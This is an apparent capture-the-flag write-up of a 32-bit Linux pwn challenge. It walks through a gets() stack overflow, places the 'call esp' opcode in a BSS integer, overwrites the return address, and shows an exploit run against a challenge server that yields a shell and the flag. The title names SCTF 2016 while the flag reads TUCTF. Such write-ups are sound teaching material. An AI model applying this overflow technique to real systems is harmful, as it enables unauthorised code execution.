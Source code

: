 # pwn2 - SCTF 2016

First of all execute `file` command
```bash
$ file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
23e4f31a5a8801a554e1066e26eb34745786f4c4: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0x161ccbaf95a7d5b84a8298afab8fdeaeedd445c0, not stripped
```

and `checksec` 
```bash
$ ./checksec --file 23e4f31a5a8801a554e1066e26eb34745786f4c4 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	FORTIFY	Fortified Fortifiable  FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   No	0		4	23e4f31a5a8801a554e1066e26eb34745786f4c4
```
So i expect that i have to do something on the stack.
The program is simple: reads a string with `gets` and an integer and check if it is odd. 
![Vuln](vuln.png)
We can easily do buffer overflow and execute out shellcode. But the tricky part is to get the address of the buffer due ASLR. So i look for any useful 
gadget in the binary but without luck. 

But the integer `meow` is stored in the `.BSS`
![Meow](meow.png)
 so i can store an instruction that turns the control flow to my shellcode! What about `call esp`? The opcode for `call esp` is `ff d4` so the integer to send is
 ```bash
 $ python
Python 2.7.3 (default, Mar 13 2014, 11:03:55) 
[GCC 4.7.2] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xd4ff
54527
```

So we overwrite the return address with `0x804a048` in order to call our istruction.

The full exploit is available [here](exploit.py)! 

Let's PWN them!

```bash
$ python exploit2.py 130.211.202.98 7575
Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAH�����������1�Ph//shh/bin�����°
    1�@̀, 54527 is an odd number!
ls
easy
flag.txt
cat flag.txt
TUCTF{th0se_were_s0me_ESPecially_good_JMPs}
```